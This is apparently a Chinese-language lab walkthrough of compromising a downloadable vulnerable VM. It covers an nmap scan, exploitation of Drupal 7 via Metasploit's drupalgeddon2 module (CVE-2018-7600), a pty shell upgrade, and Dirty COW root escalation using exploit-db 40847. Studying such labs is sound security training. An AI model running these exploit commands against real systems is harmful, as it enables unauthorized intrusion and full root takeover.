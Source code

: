 # CVE-2018-7600+脏牛

---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- win7
- centos7
- MSF5
- Nmap
- [靶机下载地址](https://mega.nz/#!aG4AAaDB!CBLRRYQsAhTOyPJqyjC0Blr-weMH9QMdYbPfMj0LGeM)
---


在导入到 VMware 后 发现是个登录界面，在确认靶机 IP段后使用 `nmap` 对目标网段进行扫描

`nmap -T5 -v -f -sS -Pn -p- 192.168.91.0/24`

![](img/1.png)

访问80端口发现一个没用的静态页面，再访问1898端口，出现web页面

![](img/2.png)

进行目录扫描，发现  `robots.txt`

![](img/3.png)

使用用谷歌插件 `wappalyzer` 知道了这个web是用 `drupal7 cms`写的
![](img/4.png)

访问信息配置页面 `http://192.168.91.134:1898/CHANGELOG.txt`

![](img/5.png)

> 快进到 使用 CVE-2018-7600 版本命令执行漏洞

### CVE-2018-7600利用

进入msf，然后search搜索CVE-2018-7600
![](img/6.png)

```
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts IP
set rport 1898
run
```
![](img/7.png)

用python获取标准shell:
python shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### 脏牛提权的利用

![](img/8.png)

去msf中查找对应的exp
```
searchsploit dirty

cp /usr/share/exploitdb/exploits/linux/local/40847.cpp /root/1.cpp

# 进入msf upload 1.cpp

g++ -Wall -pedantic -O2 -std=c++11 -pthread -o 40847 1.cpp -lutil
./40847
```
![](img/9.png)

获取目标 root 密码

ssh重新连接，用户为root，密码为 `dirtyCowFun`